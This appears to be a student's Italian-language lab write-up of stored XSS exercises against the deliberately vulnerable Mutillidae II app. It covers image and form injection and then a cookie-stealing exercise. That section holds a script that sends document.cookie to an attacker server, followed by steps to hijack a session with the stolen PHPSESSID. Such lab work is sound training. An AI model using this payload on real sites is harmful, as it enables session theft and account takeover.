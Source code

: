# Esercizio 2 - XSS Stored
Per questa tipologia di esercizi si può fare riferimento alla pagina (A3 - Cross Site Scripting (XSS) ->
Persistent (Second Ordert) -> Add to our blog) raggiungibile all’indirizzo http://127.0.0.1/mutillidae/index.php?page=add-to-your-blog.php. Come primo passo occorre valutare se la pagina è effettivamente
soggetta a vulnerabilità di tipo XSS Injection di tipo persistente.
Gli attacchi XSS di tipo stored risultano più pericolosi in quanto il codice iniettato rimane memorizzato
all’interno della pagina web.
## Esercizio 2.1 - Iniezione di un’immagine
In questo esercizio viene richiesto di sfruttare tecniche di XSS stored per caricare immagini
arbitrarie all’interno della pagina indicata sopra.

Ci troviamo questa pagina:
![Screenshot pagina vulnerabile](blog.png)

Ed inseriamo il seguente codice:
```html
<img src="https://cdn-0001.qstv.on.epicgames.com/DeWFZjGciBtKpknWZf/image/landscape_comp.jpeg"/>
```

## Esercizio 2.2 - Iniezione di un form html
In questo esercizio viene richiesto di inserire, tramite l’input text disponibile alla pagina, un
form html che accetti un ulteriore campo input Una form è identificata dal tag html form ref,
mentre il campo input https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input.

Form + Input:
```html
<form action="https://www.google.com/search" method="get">
    <input type="text" name="q" />
    <input type="submit" value="Cerca" />
</form>
```

## Esercizio 2.3 - Ottenimento dei cookie di sessione (Cookie stealing)
In questo esercizio si chiede di realizzare in modalità XSS Stored l’Esercizio 1.3 proposto sopra.
Utilizzare lo stesso server Python realizzato precedentemente.
Una volta creato il server web si richiede di iniettare un codice javascript in grado di inviare i
cookie di sessione dell’utente usando la pagina http://127.0.0.1/mutillidae/index.php?page=add-
to-your-blog.php.

Analogamente a quanto fatto in precedenza, si richiede di iniettare il codice javascript in grado di
inviare i cookie di sessione dell’utente malevolo.
Lo script si inserisce all’interno del campo di testo e viene eseguito quando l’utente visita la pagina:
```html
<script>
    var x = new XMLHttpRequest();
    x.open("POST", "http://192.168.64.1:8080", true);
    x.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    x.send("cookie=" + document.cookie);
</script>
```

Per testarlo:
- Iniettare il codice javascript nella pagina http://192.168.64.21/mutillidae/index.php?page=add-
to-your-blog.php, notare che ora lo script rimane memorizzato.
- Simulare un accesso alla piattaforma Mutillidae II tramite navigazione privata del browser
con uno degli utenti presenti
- Navigare sulla pagina http://192.168.64.2/mutillidae/index.php?page=add-to-your-blog.php e
visualizzare sul server netcat i cookie di sessione dell’utente.
- Utilizzare i cookie di sessione per autenticarsi sull’applicazione web (utilizzando un’altra
finestra del browser in modalità incognito).

Per importare i cookie di sessione ho inserito questo comando nella console della pagina svilupatore nella pagina in incognito:
```javascript
document.cookie = "PHPSESSID=k7farp41oiot5t1uj86sp577d2";
```

E si puo vedere che aggiornando la pagina, è stato effettuato l'accesso come john, da cui avevamo inserito il codice js.

